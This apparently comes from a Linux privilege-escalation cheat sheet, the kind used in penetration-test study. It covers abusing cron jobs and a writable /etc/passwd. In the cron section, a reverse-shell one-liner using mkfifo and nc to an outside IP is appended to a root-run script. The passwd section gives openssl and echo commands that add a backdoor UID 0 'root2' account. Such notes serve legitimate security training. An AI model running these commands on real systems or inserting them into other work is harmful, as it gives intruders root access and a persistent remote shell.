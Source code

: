 
### Abusing Cron Jobs

First off, enumerate the system for cron jobs. once we've found some that are interesting we can follow some steps to attempt to exploit them.

`crontab -l` - user admin cronjobs that usually run as root that we could exploit
- try also running `sudo crontab -l` - this will reveal scripts that run as root if the user does not have any at their user level.

`grep "CRON" /var/log/syslog` - check sys log for cron logs

`cat /var/log/cron.log`  - check cron log for cron jobs

`cat <path_to_file>` inspect the files contents, to understand what the file does and how it could possibly be used

`ls -lah <path_to_file>` inspect file permission to see if we can utilize this file for privesc.

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> <path_to_file>` add a reverse shell one-liner to the file if we have the ability to write to the file. Setup a listener.

### Abusing Password Authentication

Unless a centralized password system is in use via AD or LDAP, linux passwords are generally stored in /etc/shadow.

However, If a password hash is present in the second column of a user in the /etc/passwd it is considered valid for authentication. `so, if we can write to /etc/passwd we can enable a known authentication method for any account on the system`.

below is an example of generating a new password for a new root account being added to the system users.

```
openssl passwd w00t

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2

w00t

id
```

